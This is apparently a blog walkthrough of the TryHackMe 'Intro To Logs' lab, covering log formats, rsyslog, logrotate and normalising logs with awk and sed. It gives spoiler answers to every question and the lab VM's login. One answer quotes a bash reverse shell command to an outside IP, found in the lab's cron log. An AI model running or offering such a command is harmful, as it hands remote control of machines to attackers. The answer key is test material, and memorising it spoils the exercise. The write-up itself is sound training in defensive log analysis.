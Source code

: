 # TryHackMe: Intro To Logs Walkthrough

## Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

## TryHackMe SOC 2 Learning Pathway

### Introduction

This is a guideo to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs)

Some nice graphics and a brief outline of learning outcomes.

### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are here

login: damianhall

password: Logs321!

*Q1:  What is the name of your colleague who left a note on the Desktop?*

> cat Desktop/note.txt (or open in the GUI) 

<details>

  <summary>Spoiler warning: Answer</summary>
  
    Perry

</details>

*Q2: What is  full path to the suggested log file for initial investigation?*

> look in cat output of the note!

<details>

  <summary>Spoiler warning: Answer</summary>
  
    /var/log/gitlab/nginx/access.log

</details>

### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

*Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?*

> Task 2 was discussing an Nginx server which is a web server...

<details>

  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

*Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?*

> The materials clearly list what format the Nginx web server uses by default.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>

### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

*Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?*

> after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

<details>

  <summary>Spoiler warning: Answer</summary>
    
    stansimon

</details>

*Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?*

> cat /etc/rsyslog.d/99-websrv-02-cron.conf

<details>

  <summary>Spoiler warning: Answer</summary>
    
    10.10.10.101

</details>

*Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?*

> cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'

<details>

  <summary>Spoiler warning: Answer</summary>
    
    /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

*Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?*

> cat /etc/logrotate.d/99-websrv-02_cron.conf - if you followed the practical activity it should be pretty clear. 

<details>

  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

*Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?*

> See the output for the last question.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

*Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?*

> OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

*What is the process of standardising parsed data into a more easily readable and query-able format?*

> This is what we did to the log file with all those awk sed and sort and uniq commands...

<details>

  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>

*What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?*

> This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

### Conclusion

I learned *a lot* from this room. And it has already me off on exploring the powerful awk and sed programs.

